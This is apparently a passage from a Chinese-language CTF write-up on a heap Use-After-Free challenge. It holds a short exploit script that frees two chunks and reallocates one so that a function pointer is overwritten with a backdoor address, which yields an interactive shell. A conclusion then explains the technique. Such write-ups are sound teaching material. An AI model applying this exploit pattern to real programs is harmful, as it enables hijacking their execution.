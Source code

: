 ```py=

backdoor = 0x00000000004015c8

add(0x20, 'aaaa') # 0
add(0x20, 'bbbb') # 1
delete(0)
delete(1)
add(0x10, p64(backdoor))
print_(0)
r.interactive()
```

solved!!!

![image](/images/iron2024/day24_image6.png)

## 結論

Use After Free 是一種經典的漏洞，特別是在使用 Heap 分配記憶體的環境中。我們通過覆蓋 function pointer，成功控制程式的執行流程。這個案例說明了記憶體管理中的常見陷阱，以及如何利用這些漏洞進行攻擊。